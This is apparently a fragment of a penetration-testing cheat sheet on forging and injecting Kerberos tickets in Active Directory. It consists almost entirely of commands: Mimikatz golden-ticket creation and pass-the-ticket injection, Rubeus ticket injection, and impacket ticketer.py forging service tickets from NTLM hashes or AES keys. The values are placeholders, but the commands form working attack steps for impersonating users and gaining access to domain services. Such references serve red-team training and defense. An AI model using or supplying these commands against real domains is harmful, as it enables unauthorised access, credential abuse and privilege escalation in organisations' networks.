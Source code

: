 ```powershell
> kerberos::golden /domain:<domain_name> /sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname> 

# Inject TGS with Mimikatz
> kerberos::ptt <ticket_kirbi_file>
```

### Rubeus
```
> .\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

### Remote
```bash
$ ticketer.py -nthash $NTLM -domain-sid $DOMAIN_SID -domain $DOMAIN <USER>

# To generate the TGS with NTLM
$ python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
$ python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
$ export KRB5CCNAME=<TGS_ccache_file>
```

